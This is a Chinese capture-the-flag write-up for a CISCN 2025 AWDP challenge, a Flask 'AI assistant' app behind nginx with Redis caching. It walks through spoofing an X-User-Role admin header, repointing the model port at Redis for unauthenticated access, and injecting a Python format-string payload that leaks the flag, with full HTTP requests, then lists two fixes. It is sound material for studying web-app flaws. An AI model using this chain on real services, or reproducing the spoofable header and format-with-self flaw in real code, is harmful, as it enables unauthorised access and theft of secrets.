



# CISCN2025 半决赛 AWDP rng-assistant-先知社区

> **来源**: https://xz.aliyun.com/news/17313  
> **文章ID**: 17313

---

## 题目结构

`start.sh`

```
#!/bin/bash

echo "FLAG='$FLAG'" > /app/flag.py

service redis-server start 
redis-cli config set save ""

python3 /app/mini-ollama/default.py &
python3 /app/mini-ollama/math-v1.py &

gunicorn --workers 1 --user=www-data --bind 127.0.0.1:8000 app:app &
nginx

while true; do
    sleep 1
done
```

通过`redis-cli config set save ""`来禁用redis的RDB 持久化。

`default.py`和`math-v1.py`分别监听两个端口，处理来自flask的请求（实际上就是随机返回字符串）

Flask监听8000端口，nginx监听80端口作为反向代理。

```
map $remote_addr $user_role {
    default     "guest";
    "127.0.0.1" "admin";
}
server {
    listen 80;
    
    proxy_set_header X-User-Role $user_role;

    location /static/public/ {
        root /app;
    }
    location /admin/ {
        proxy_pass http://localhost:8000;
        proxy_set_header X-Secret "210317a2ee916063014c57d879b9d3bc";
    }
    location / {
        proxy_pass http://localhost:8000;
    }
}
```

默认会给非本地连接的HTTP请求添加`X-User-Role`为`guest`的请求头，可以自己传递`X-User-Role`头来绕过

* 用户注册

```
POST /register HTTP/1.1
Host: 192.168.71.128:18082
Content-Length: 31
Content-Type: application/json

{"username":"b","password":"1"}
```

* 用户登录

```
POST /login HTTP/1.1
Host: 192.168.71.128:18082
Content-Length: 31
Content-Type: application/json

{"username":"b","password":"1"}
```

* 用户提问

```
POST /ask HTTP/1.1
Host: 192.168.71.128:18082
Content-Length: 45
Cookie: session=eyJ1c2VyIjoiYiJ9.Z9pCnw.8c9juu2osaTVFx466DyZ_YFc6YM;
Content-Type: application/json

{"question":"Hello 111","model_id":"math-v1"}
```

## redis未授权访问

通过socket连接跟“大模型”通信，这里还设置了回答的缓存机制

提示词和对应的模型作为key，将“大模型”的回答缓存到redis中

```
def query_model(prompt, model_id="default"):
    cache_key = f"{md5(prompt.encode()).hexdigest()}:{model_id}"
    cached = redis_conn.get(cache_key)
    if cached:
        return cached.decode()

    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect(("127.0.0.1", get_model_port(model_id)))
            s.sendall(prompt.encode("utf-8"))
            response = s.recv(4096).decode("utf-8")

            redis_conn.setex(cache_key, 3600, response)  # Cache for 1 hour
            return response
    except Exception as e:
        return f"Model service error: {str(e)}"
```

注意到管理员可以修改模型通信端口

```
POST /admin/model_ports HTTP/1.1
Host: 192.168.71.128:18082
Content-Length: 36
Cookie: session=eyJ1c2VyIjoiYiJ9.Z9pCnw.8c9juu2osaTVFx466DyZ_YFc6YM;
Content-Type: application/json
X-User-Role: admin

{"model_id":"redis","port":6379}
```

不难想到将这个端口修改为redis的端口6379，就可以直接未授权访问redis了。





## 格式化字符串漏洞

```
class PromptTemplate:
    PROMPT_DIR = "static/prompts"

    def __init__(self, question, user_level="primary"):
        self.user_level = user_level
        self.question = question

    @staticmethod
    def get_template(template_id):
        prompt_key = f"prompt:{template_id}"
        prompt = redis_conn.get(prompt_key)
        if not prompt:
            template_path = join(PromptTemplate.PROMPT_DIR, f"{template_id}.txt")
            with open(template_path, "rb") as file:
                prompt = file.read()
            redis_conn.set(prompt_key, prompt)
        prompt = prompt.decode(errors="ignore")
        return prompt

    def get_prompt(self, template_id):
        return PromptTemplate.get_template(template_id).format(t=self)
```

`PromptTemplate#get_template`首先从redis寻找模板，找到则直接返回，否则在`static/prompts`下找

`PromptTemplate.get_template(template_id).format(t=self)`这里把类对象self传入格式化字符串的上下文

```
def generate_prompt(user_question, prompt_id="math-v1"):
    return PromptTemplate(user_question).get_prompt(prompt_id)
```

`/ask`路由调用了`generate_prompt`，但没有传`prompt_id`

因此往redis增加键`prompt:math-v1`，获取模板时即可拿到我们设置的格式化字符串

flag是`from flag import FLAG`引入的

```
POST /admin/raw_ask HTTP/1.1
Host: 192.168.71.128:18082
X-User-Role: admin
Content-Length: 87
Cookie: session=eyJ1c2VyIjoiYSJ9.Z9pdQw.ZhI6iC7NA7rE5nlNo09hs_q5jhs
Content-Type: application/json

{"model_id":"redis","prompt":"SET prompt:math-v1 "{t.__init__.__globals__[FLAG]}"
"}
```



修复的话可以考虑两点：

* 禁止将端口修改为redis端口6379
* `PromptTemplate.get_template(template_id).format(t=self)`格式化字符串时不传入self
